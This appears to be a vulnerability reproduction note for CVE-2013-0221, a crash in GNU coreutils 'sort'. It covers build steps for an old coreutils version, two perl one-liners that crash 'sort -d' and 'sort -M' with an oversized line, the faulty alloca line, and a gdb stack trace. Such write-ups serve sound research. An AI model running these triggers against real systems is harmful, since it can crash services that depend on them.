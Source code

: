 # CVE-2013-0221 & EDB-38232

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0221/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
    perl -e 'print "1","A"x50000000,"\r\n\r\n"' | sort -d

    perl -e 'print "1","A"x50000000,"\r\n\r\n"' | sort -M
```

## PoCs

[GNU Coreutils 'sort' Text Utility - Buffer Overflow](https://www.exploit-db.com/exploits/38232/)

## Vulnerability Details & Patch

### Root Cause

```
sort.c:2632

	char *copy_a = (char *) alloca (lena + 1 + lenb + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x08051bc0 in keycompare_mb (a=0xb6f00048, b=0xb6f00038) at sort.c:2722
#1  0x0804a556 in compare (a=0xb6f00048, b=0xb6f00038) at sort.c:2787
#2  0x0804cc52 in sortlines (lines=0xb6f00058, nlines=<value optimized out>, temp=0xb6f00038) at sort.c:3195
#3  0x0804fd52 in sort (argc=2, argv=0xbf8a9654) at sort.c:3496
#4  main (argc=2, argv=0xbf8a9654) at sort.c:4328
```

## References

[1] [CVE-2013-0221: coreutils: segmentation fault in "sort -d" and "sort -M" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=798538)
